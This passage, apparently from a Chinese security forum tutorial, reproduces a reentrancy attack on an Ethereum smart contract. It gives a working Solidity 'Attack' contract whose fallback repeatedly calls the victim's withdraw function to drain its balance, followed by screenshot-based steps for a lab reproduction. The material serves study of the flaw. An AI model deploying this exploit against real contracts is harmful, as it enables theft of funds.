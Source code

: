 攻击合约
----

```solidity
contract Attack {
    Victim public victim;

    //设定受害者合约地址
    constructor(address _victimAddress) public {
        victim = Victim(_victimAddress);
    }

    //重写fallback
    fallback() external payable {
        if(address(victim).balance >= 1 ether){
            victim.withdraw(1 ether);
        }
    }

    //攻击，调用受害者的withdraw函数
    function attack() external payable {
        require(msg.value >= 1 ether);
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    }

    //查询余额
    function getBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```

复现过程
----

### 虚拟机中

- 分别为受害者和攻击者创建一个合约

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-b9a799842084aa472cd4827bf2f754df6192a358.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-b9a799842084aa472cd4827bf2f754df6192a358.png)

- 用deposit函数为受害者设定一定余额

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-b62bd8144bee20ca727b06b126bf036b770d49fd.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-b62bd8144bee20ca727b06b126bf036b770d49fd.png)

- 检查受害者余额

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-4b75e3316698c508e526473fecb580426e17efef.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-4b75e3316698c508e526473fecb580426e17efef.png)
